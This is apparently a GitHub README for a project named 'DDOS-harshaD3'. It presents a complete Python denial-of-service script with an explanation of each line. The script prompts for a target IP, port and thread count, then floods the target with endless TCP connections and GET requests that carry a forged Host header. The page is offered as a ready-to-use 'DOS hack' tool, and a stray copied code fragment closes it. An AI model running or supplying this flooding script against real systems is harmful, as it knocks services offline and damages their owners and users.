 # DDOS-harshaD3

![Cool Typography Boo Halloween Store Logo](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/590fba29-1f58-45de-9ebc-4e8b603d14f0)

# DOS hack python script ...........!

import socket
import threading

-->These lines import necessary modules from Python's standard library. socket is used for creating network sockets, and threading is used for creating and managing threads.

target = input("Insert target’s IP: ")
port = int(input("Insert Port: "))
num_threads = int(input("Insert number of Threads: "))

-->These lines prompt the user to input the IP address of the target server, the port number to attack, and the number of threads (connections) to create for the attack. The input() function is used to take input from the user, and int() is used to convert the input to integers where necessary.

![image](https://github.com/Harshavardhanraju99/DDOS-harshaD3/assets/160013343/36e370c6-71f7-4174-afa5-e90ac4d8edac)

fake_ip = '44.197.175.168'
attack_num = 0

-->Here, fake_ip is assigned a dummy IP address which will be used in the forged HTTP request header. attack_num is initialized to keep track of the number of requests sent during the attack.

def attack():
    global attack_num
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((target, port))
            s.send(f"GET /{target} HTTP/1.1\r\n".encode('utf-8'))
            s.send(f"Host: {fake_ip}\r\n\r\n".encode('utf-8'))
            s.close()
            attack_num += 1
            print(f"Attack number: {attack_num}")
        except Exception as e:
            print(f"Error: {e}")
            
-->This function attack() is defined to simulate the DoS attack. It continuously tries to establish a connection to the target server using TCP/IP sockets (socket.socket()), sends a fake HTTP GET request with a forged IP address in the header, increments the attack_num counter, and prints the number of attacks. If an exception occurs during the attack, it prints the error message.


threads = []
for _ in range(num_threads):
    thread = threading.Thread(target=attack)
    thread.start()
    threads.append(thread)
    
-->These lines create a list threads to store the threads created for the attack. It then creates the specified number of threads (num_threads) by looping through and calling the attack() function as the target for each thread. Each thread is started (thread.start()) and added to the threads list.
for thread in threads:
    thread.join()
    
-->Finally, this loop waits for all threads to finish executing (thread.join()). It ensures that the main program waits for all threads to complete before it terminates.



Importing Libraries:

python
Copy code
import socket
import threading
